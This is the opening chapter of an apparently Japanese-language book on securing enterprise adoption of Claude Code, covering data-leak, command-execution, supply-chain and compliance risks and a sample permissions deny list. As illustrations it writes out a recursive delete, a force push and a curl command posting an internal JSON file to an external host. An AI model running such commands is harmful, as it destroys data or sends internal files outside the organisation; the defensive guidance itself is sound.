

# 第1章 なぜ企業のClaude Code導入にセキュリティガイドが必要か

> 本書の内容はClaude Code 2.x系（v2.1.90）（2026年4月時点）に基づいています。

## この章で学ぶこと

- AIコーディングツール導入で企業が直面するセキュリティ上の課題
- Claude Codeが従来のAIアシスタントと根本的に異なる点
- 「禁止」ではなく「安全に活用する」アプローチの重要性
- 本書の構成と、読み終えた後に得られるもの

---

## はじめに -- 「使いたいけど、使えない」という壁

「Claude Codeの生産性向上は明らかだ。しかし、セキュリティ部門が首を縦に振らない。」

筆者がThreadsやXで目にするこの声は、もはや少数派のものではない。エンジニア個人がClaude Codeの強力さを実感し、チームに導入したいと考えたとき、ほぼ必ずぶつかるのが「セキュリティの壁」だ。

合同会社ジョインクラスのCEOである筆者・許（きょ）は、Claude Codeを使って実際に会社を運営している。複数の自社プロダクト、受託開発、書籍執筆、コンサルティング -- これらをCEO1名とAIエージェント群で回す日々の中で、セキュリティは最初から最重要テーマだった。

なぜなら、Claude Codeは単なるコード補完ツールではないからだ。ターミナルから直接ファイルを読み書きし、コマンドを実行し、gitを操作する。その強力さゆえに、セキュリティ設計なしで企業に導入することは、サーバーのrootパスワードを全社員に配るようなものだ。

本書は、「Claude Codeを禁止する」ためのガイドではない。**「Claude Codeを安全に、自信を持って企業に導入する」**ためのガイドだ。


## AIコーディングツールの企業導入で何が問題になるのか

企業がAIコーディングツールを導入する際に懸念するセキュリティリスクは、大きく5つに分類できる。

### 1. データ漏洩リスク

最も多い懸念は「ソースコードや機密情報がAIプロバイダーに送信されるのではないか」というものだ。

これは正当な懸念である。Claude Codeはコンテキストとしてファイルの内容を読み取り、Anthropic APIに送信する。送信される情報には以下が含まれる可能性がある。

- ソースコード（ビジネスロジック、アルゴリズム）
- 設定ファイル（データベース接続情報、APIキー）
- 環境変数ファイル（.envの内容）
- ドキュメント（社内仕様書、設計書）
- gitの履歴（コミットメッセージ、差分）

ただし、重要なのは**「何が送信されるか」と「送信されたデータがどう扱われるか」は別の問題**だということだ。この点については第2章で詳しく解説する。

### 2. 意図しないコード実行リスク

Claude Codeはターミナルコマンドを実行できる。これは最大の強みであると同時に、最大のリスクでもある。

```
# 第1章 なぜ企業のClaude Code導入にセキュリティガイドが必要か
rm -rf /path/to/important/directory
git push --force origin main
curl https://external-api.com -d @internal-data.json
```

デフォルトでは、Claude Codeはコマンド実行前にユーザーの承認を求める。しかし、Permissionsで自動承認を設定している場合や、ユーザーが確認せずに承認してしまった場合のリスクは残る。

### 3. サプライチェーンリスク

Claude Codeが生成するコードに、脆弱性のあるライブラリやパッケージが含まれる可能性がある。また、MCPサーバーを通じて外部サービスと連携する場合、その連携先のセキュリティも考慮が必要だ。

### 4. アクセス制御の複雑さ

チームでClaude Codeを使う場合、「誰がどのリポジトリで、どのような操作を許可するか」を設計する必要がある。ジュニアエンジニアとシニアエンジニアで異なる権限を設定すべきか。本番環境へのデプロイは許可するか。こうした判断は、企業のセキュリティポリシーと密接に関わる。

### 5. コンプライアンスリスク

業種や取り扱うデータによっては、SOC2、ISO27001、GDPR、日本の個人情報保護法など、各種規制への準拠が求められる。AIツールの利用がこれらの規制に抵触しないことを証明する必要がある。


## Claude Codeは従来のAIアシスタントと何が違うのか

GitHub CopilotやChatGPTといった他のAIツールと比較したとき、Claude Codeのセキュリティ上の特徴を理解しておくことは重要だ。

### コード補完 vs エージェント型

GitHub Copilotは主に「コード補完」ツールだ。エディタ上でコードの候補を提示し、ユーザーがTabキーで受け入れる。ファイルシステムへの直接アクセスやコマンド実行は限定的だ。

一方、Claude Codeは**エージェント型**だ。ユーザーの指示に基づいて、自律的にファイルを読み書きし、コマンドを実行し、複数のステップを連続して処理する。この違いは、セキュリティ設計のアプローチを根本的に変える。

| 特性 | コード補完型 | エージェント型（Claude Code） |
|------|------------|---------------------------|
| ファイルアクセス | エディタで開いているファイルのみ | プロジェクト全体 + 任意のパス |
| コマンド実行 | 不可または限定的 | ターミナルコマンドを直接実行 |
| 自律性 | ユーザーが1行ずつ承認 | 複数ステップを連続実行 |
| 影響範囲 | 編集中のファイル | ファイルシステム全体 |
| ネットワーク | API通信のみ | curl、MCP等で外部通信可能 |

この表を見れば、Claude Codeのセキュリティ設計が「コード補完ツールの延長」では不十分であることがわかるだろう。

### なぜ「強力」なのにリスクが管理可能なのか

ここで重要なのは、Claude Codeが「危険だから使うべきではない」のではなく、**「強力だからこそ、適切なセキュリティ設計が必要」**という視点だ。

Claude Codeには、企業利用を想定したセキュリティ機構が組み込まれている。

- **Permissions（権限制御）**: ファイルの読み書き、コマンド実行を細かく制御できる
- **Hooks（フック）**: コマンド実行前後にカスタムスクリプトを挟める
- **CLAUDE.md（指示ファイル）**: プロジェクトレベル・組織レベルでの行動規範を定義できる
- **Settings（設定）**: ユーザー/プロジェクト/Enterprise単位で設定を管理できる

これらの機構を正しく設計すれば、Claude Codeは他のどのAIツールよりも細かいセキュリティ制御が可能なツールになる。本書では、この設計方法を具体的に解説する。


## 「禁止」ではなく「ガバナンス」を

筆者がこの本を書こうと思った最大の理由は、多くの企業が「AIツールを禁止する」方向に流れていることへの危機感だ。

禁止は最も簡単なセキュリティ対策だが、3つの問題がある。

**1. シャドーIT化する**

禁止されたツールを個人アカウントでこっそり使うエンジニアが必ず出る。これは、IT部門の管理下にないツール利用 -- つまりシャドーITだ。管理下にない利用は、管理下にある利用よりもはるかに危険だ。

**2. 競争力を失う**

AIコーディングツールを活用している企業と活用していない企業の生産性格差は、今後ますます広がる。GitHub社のOctoverse Report 2024によると、AIコーディングツールの利用により開発者の生産性が55%向上するというデータもある。この差を「セキュリティリスク」という理由で受け入れ続けることは、経営判断として正しいのか。

**3. 優秀なエンジニアが離れる**

最新ツールを活用できる環境を求めるエンジニアは多い。AIツールの利用を一律禁止する企業は、採用市場で不利になる可能性がある。

本書が提案するのは、「禁止」ではなく「ガバナンス」のアプローチだ。



この「ガバナンス」の具体的な設計方法を、本書では10章にわたって解説する。


## 筆者の実体験 -- 1人法人でのセキュリティ設計

「企業向け」と言いつつ、筆者の会社は1人法人ではないか -- そう思った読者もいるだろう。

確かに合同会社ジョインクラスの「人間の従業員」は筆者1人だ。しかし、AIエージェントを使って9つの部門を運営し、受託開発では顧客のコードベースを扱い、書籍執筆では読者の信頼を預かっている。

実際に筆者が直面したセキュリティ上の課題を挙げる。

- **顧客のソースコードがAIに送信される問題**: 受託開発で顧客のリポジトリを扱う際、Claude Codeに送信される情報の範囲を明確にする必要があった
- **APIキーの漏洩防止**: 複数プロダクトの本番APIキーが.envファイルに格納されており、Claude Codeがそれを読み取らないよう制御する必要があった
- **自動実行の暴走防止**: AIエージェントが自律的にコマンドを実行する設計のため、意図しないコマンド実行を防ぐ仕組みが必須だった
- **git pushの制御**: 本番ブランチへの直接プッシュをClaude Codeに許可すべきか、CI/CDパイプラインを通すべきかの判断

これらの課題に対して、筆者はPermissions、Hooks、CLAUDE.mdを組み合わせたセキュリティ設計を構築した。その設計の全貌を、本書で惜しみなく公開する。

規模が小さいからこそ、全ての設計判断を1人で下し、全ての結果を自分で検証できた。大企業で同じことをするなら、複数の部門の合意が必要になるだろう。だが、設計の原則は同じだ。


## 5分でできる最低限のセキュリティ設定

本書を読み進める前に、今すぐ試せる最低限のセキュリティ設定を紹介する。プロジェクトのルートに `.claude/settings.json` を作成し、以下を記述するだけだ。

```json
// .claude/settings.json
{
  "permissions": {
    "deny": [
      "Bash(rm -rf *)",
      "Bash(git push --force*)",
      "Bash(DROP *)"
    ]
  }
}
```

この設定により、Claude Codeは以下の操作を実行できなくなる。

- `rm -rf` による再帰的なファイル削除
- `git push --force` による本番ブランチの強制上書き
- `DROP` 文によるデータベーステーブルの削除

たった3行のdenyルールだが、これだけで「最悪の事故」を防げる。設定を保存してClaude Codeを起動すれば、すぐにブロックが有効になる。

> **補足**: denyルールはClaude Codeの組み込みセキュリティ機構だが、一部のバージョンでdenyルールが完全にenforceされないケースが報告されている。denyルールを設定した上で、第6章で解説するHooksによる動的チェックを併用する多層防御を推奨する。詳細は第4章のパターンマッチングの注意点を参照。

筆者の環境では、Permissions + Hooks + CLAUDE.md の3層防御を導入してから、意図しないファイル削除やgit force pushの事故はゼロ件だ。導入前は月に1-2回「ヒヤリ」とする場面があったが、多層防御の導入後は2ヶ月間インシデントが発生していない。

この成功体験を起点に、第4章以降で本格的なPermissions設計を学んでいこう。


## 本書の構成

本書は、以下の3部構成で設計されている。

### 第1部: 理解する（第1章〜第3章）

Claude Codeのセキュリティ特性を正しく理解する。データフローの仕組み、プランごとのセキュリティ機能の違いを把握し、自社に最適なプランを選定できるようになる。

- **第1章（本章）**: なぜセキュリティガイドが必要か
- **第2章**: データフロー完全解説 -- 何がどこに送信されるか
- **第3章**: 企業向けプラン比較 -- Business/Enterprise/Max/APIの選定基準

### 第2部: 設計する（第4章〜第8章）

具体的なセキュリティ設計を行う。Permissions、CLAUDE.md、Hooks、シークレット管理、ネットワークセキュリティの5つのレイヤーで多層防御を構築する。

- **第4章**: アクセス制御とPermissions設計
- **第5章**: CLAUDE.mdによるセキュリティポリシーの実装
- **第6章**: Hooksによるセキュリティ強制
- **第7章**: シークレット管理
- **第8章**: ネットワークセキュリティ

### 第3部: 運用する（第9章〜第10章）

設計したセキュリティを組織として運用する。コンプライアンス対応と、すぐに使えるテンプレート集で、導入の最後のハードルを越える。

- **第9章**: コンプライアンス対応
- **第10章**: 企業導入テンプレート集

各章は独立して読むこともできるが、第1章から順に読み進めることで、知識が段階的に積み上がるよう設計している。


## この本を読み終えた後のあなた

本書を読み終えたとき、あなたは以下のことができるようになっている。

1. **経営層への提案**: Claude Code導入の稟議書に添付できるセキュリティ評価レポートを作成できる
2. **セキュリティポリシーの策定**: 自社に合ったClaude Code利用ポリシーをゼロから設計できる
3. **技術的な実装**: Permissions、Hooks、CLAUDE.mdを組み合わせた多層防御を構築できる
4. **コンプライアンス対応**: SOC2、ISO27001、GDPR等の監査に対してAIツール利用の根拠を示せる
5. **継続的な運用**: セキュリティインシデントの検知・対応・改善のサイクルを回せる

次の第2章では、Claude Codeのデータフローを完全に解説する。「何がどこに送信されるのか」という最も基本的な疑問に、技術的な正確さで答えていく。

---

## まとめ

- 企業のClaude Code導入でセキュリティが最大の壁になっている
- Claude Codeはエージェント型であり、コード補完型とはセキュリティ設計のアプローチが根本的に異なる
- 「禁止」ではなく「ガバナンス」のアプローチが企業の競争力を維持する鍵
- Claude CodeにはPermissions、Hooks、CLAUDE.mdという3層のセキュリティ機構が組み込まれている
- 本書は「理解する→設計する→運用する」の3部構成で、段階的にセキュリティ設計を学べる

:::message
**本章の情報はClaude Code 2.x系（v2.1.90）（2026年4月時点）に基づいています。** Claude Codeのメジャーアップデート時に改訂予定です。最新情報は[Anthropic公式ドキュメント](https://docs.anthropic.com/en/docs/claude-code)をご確認ください。
:::

> 本書の著者は、Claude Codeを使った経営実践の全貌を「[Claude Codeで会社を動かす](https://zenn.dev/joinclass/books/claude-code-ai-ceo)」で公開しています。AIエージェント経営に興味がある方は、ぜひそちらもご覧ください。
